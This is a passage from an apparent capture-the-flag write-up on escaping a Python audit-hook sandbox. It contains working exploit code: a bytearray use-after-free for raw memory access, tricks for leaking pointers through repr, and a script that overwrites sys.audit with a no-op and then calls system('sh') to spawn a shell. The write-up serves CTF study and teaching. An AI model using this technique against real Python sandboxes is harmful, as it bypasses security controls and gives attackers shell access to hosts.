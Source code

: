 ```py
        del uaf[:]
        memory = bytearray()
        uaf.extend([0] * 56)
        return 1

uaf = bytearray(56)
baset(uaf, 23, B())

#actual exploit
baset(memory, id(250) + 24, 100)
print(250)
```

...except the challenge exits without printing anything. We have been foiled yet again... or have we? 

We know that using the repr of a custom function can yield us something like `<function func at 0x000002459495F160>`, 
which we can then parse and obtain the pointer (that is equivalent to the value given by `id`). But this doesn't work with builtin methods nor literals, 
since they will just print something like `<built-in function id>` or `100` respectively. This is where codegolfing quirks come into play - turns out 
`id.__init__`, or `(100).__new__` both yields the exact same pointer as it would by calling `id(id)` or `id(100)` respectively. 

(Eventually we also realized `object.__repr__(val)` will print the pointer to any object just as `id(val)` would, but we were already using the above trick anyway so we didn't bother moving over to that.)

After more brain racking (and brainfarting), we got to the point where we can throw sys.audit into oblivion and replace it with a benign function, like what we did for diligent auditor except with much more code and much more struggle:

```py
#same UAF setup code as above, omitted for brevity
...

ga = g(g(globals(), "__builtins__"), "getattr")

subcls = g(dict(vars(type)), "__subclasses__")(object)   #metaclasses so need g
wc, = [cls for cls in subcls if 'wrap_close' in str(cls)]

glob = ga(gi(wc, "__init__"), "__globals__")
sys = g(glob, "sys")
print(glob.keys())
system = g(glob, "system")


aud = ga(sys.audit, "__init__")
print(aud)

def getptr(func):
    a, b = str(func).split("0x")
    a, b = b.split(">")
    print(a)
    return int(a, 16)

def nop():
    pass

baset(memory, getptr(aud) + 16, baget(memory, getptr(nop)))

system("sh")
```
